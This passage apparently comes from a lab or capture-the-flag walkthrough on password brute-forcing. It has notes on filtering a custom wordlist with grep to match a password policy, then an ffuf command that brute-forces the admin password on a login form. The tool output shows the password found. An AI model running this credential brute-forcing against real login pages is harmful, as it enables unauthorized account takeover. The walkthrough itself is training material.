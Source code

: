 ```ad-important
    The pipeline processes filters sequentially. If a password fails any condition, it gets dropped early, improving efficiency.
    
2. **POSIX vs Simple Regex**:  
    `[[:upper:]]`Â is more reliable thanÂ `[A-Z]`Â because it handles non-English characters and locale settings.
    
3. **Length Check Issue**:  
    The commandÂ `.{10}`Â may allow passwords longer than 10 characters but doesn't explicitly enforce aÂ **minimum**Â length for the entire password.
    
    - **Better Practice**: Replace withÂ `grep -E '^.{10,}$'`Â to ensure the entire line (password) is â‰¥10 characters.
```

Now, we can use ffuf:

```
ffuf -w custom_wordlist.txt -u http://IP:PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200
```

We get the following output:

```
ffuf -w custom_wordlist.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/custom_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 306ms]
```
